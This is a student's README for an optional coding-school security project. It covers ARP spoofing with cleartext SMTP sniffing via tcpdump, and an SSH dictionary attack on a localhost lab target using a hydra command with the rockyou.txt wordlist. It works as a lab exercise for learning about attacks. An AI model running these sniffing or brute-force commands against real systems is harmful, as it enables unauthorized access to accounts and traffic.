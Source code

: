 # Attack is the best defense

#Background Context
This project is NOT mandatory at all. It is 100% optional. Doing any part of this project will add a project grade of over 100% to your average.
Your score won’t get hurt if you don’t do it, but if your current average is greater than your score on this project, your average might go down. Have fun!

## Resource

- [Network sniffing](https://www.lifewire.com/definition-of-sniffer-817996)
- [ARP spoofing](https://www.veracode.com/security/arp-spoofing)
- [Connect to SendGrid’s SMTP relay using telnet](https://docs.sendgrid.com/ui/account-and-settings/troubleshooting-delays-and-latency)
- [What is Docker and why is it popular?](https://www.zdnet.com/article/what-is-docker-and-why-is-it-so-darn-popular/)
- [Dictionary attack](https://en.wikipedia.org/wiki/Dictionary_attack)

## Tasks

<details>
<summary><a href="./0-sniffing">0. ARP spoofing and sniffing unencrypted traffic</a></summary><br>

<a href='https://postimg.cc/dZFTgZM5' target='_blank'><img src='https://i.postimg.cc/nrjYjq3f/image.png' border='0' alt='image'/></a>

```sh
sylvain@ubuntu$ telnet smtp.sendgrid.net 587
Trying 167.89.121.145...
Connected to smtp.sendgrid.net.
Escape character is '^]'.
220 SG ESMTP service ready at ismtpd0013p1las1.sendgrid.net
EHLO ismtpd0013p1las1.sendgrid.net
250-smtp.sendgrid.net
250-8BITMIME
250-PIPELINING
250-SIZE 31457280
250-STARTTLS
250-AUTH PLAIN LOGIN
250 AUTH=PLAIN LOGIN
auth login           
334 VXNlcm5hbWU6
VGhpcyBpcyBteSBsb2dpbg==
334 UGFzc3dvcmQ6
WW91IHJlYWxseSB0aG91Z2h0IEkgd291bGQgbGV0IG15IHBhc3N3b3JkIGhlcmU/ISA6RA==
235 Authentication successful
mail from: sylvain@kalache.fr
250 Sender address accepted
rcpt to: julien@google.com
250 Recipient address accepted
data
354 Continue
To: Julien
From: Sylvain
Subject: Hello from the insecure world

I am sending you this email from a Terminal.
.
250 Ok: queued as Aq1zhMM3QYeEprixUiFYNg
quit
221 See you later
Connection closed by foreign host.
sylvain@ubuntu$ 
```

<a href='https://postimages.org/' target='_blank'><img src='https://i.postimg.cc/kG0NxDH6/image.png' border='0' alt='image'/></a>

```sh
# Run this when there is no other process running,
# ...tried to find a way to specifically filter the specif process but
# ...the best option was to run it in a virtual enviroment
# ...also base64 should be your best friend
sudo tcpdump -A -l
```

- [user\_authenticating\_into\_server](./user_authenticating_into_server) binary script file.

</details>

<details>
<summary><a href="./1-dictionary_attack">1. Dictionary attack</a></summary><br>

<a href="https://ibb.co/Ltr6sZh"><img src="https://i.ibb.co/7WQV01N/image.png" alt="image" border="0"></a>

- [Wordlist](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt) **Rockyou.txt**

```sh
# command
hydra -V -s 2222 -l sylvain -P rockyou.txt 127.0.0.1 ssh -t 64
```

</details>
